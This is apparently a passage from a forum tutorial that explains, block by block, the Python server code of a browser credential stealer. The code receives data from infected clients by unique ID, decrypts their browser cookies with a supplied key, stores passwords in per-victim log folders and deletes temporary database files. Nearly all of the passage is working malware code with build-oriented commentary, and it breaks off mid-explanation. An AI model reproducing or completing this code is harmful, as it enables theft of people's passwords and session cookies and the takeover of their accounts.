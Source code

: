                                     process_cookies(decoded_data, key, cookies_file_path)

                                    print(f"File {db_name} was successfully saved and cookies were decrypted.")



                                # Deleting the temporary database file after processing

                                os.remove(db_path)



                            except Exception as e:

                                print(f"Error processing file: {str(e)}")



        print("Received data from a client with a unique identifier:", unique_id)



        return json.dumps({'message': 'Data successfully received and processed.'}, ensure_ascii=False), 200

    except Exception as e:

        return json.dumps({'error': f'Error while processing data: {str(e)}'}, ensure_ascii=False), 500

[/CODE]



Now let's look at this code in parts.

[CODE=python]

    def receive_browser_log(unique_id):
[/CODE] This function first receives JSON from the client
[CODE=python]

    unique_id_logs_dir = os.path.join(app.root_path, 'logs', unique_id)
    os.makedirs(unique_id_logs_dir, exist_ok=True)
[/CODE] Create a directory in which the logs will be stored. Each client's log folder will be named after its unique ID
[CODE=python]

    passwords_file_path = os.path.join(unique_id_logs_dir, 'passwords.txt')[/CODE] Path to the file in which passwords will be written
[CODE=python]

    key_base64 = browser_data.get("key")
    if key_base64 is None:
    print(f'There is no key in the browser {browser_name}.')
    continue
[/CODE] Getting the key in base64 format from the data received from the client
[CODE=python]

    key = base64.b64decode(key_base64)
[/CODE] Decoding a key from base64 to bytes
[CODE=python]
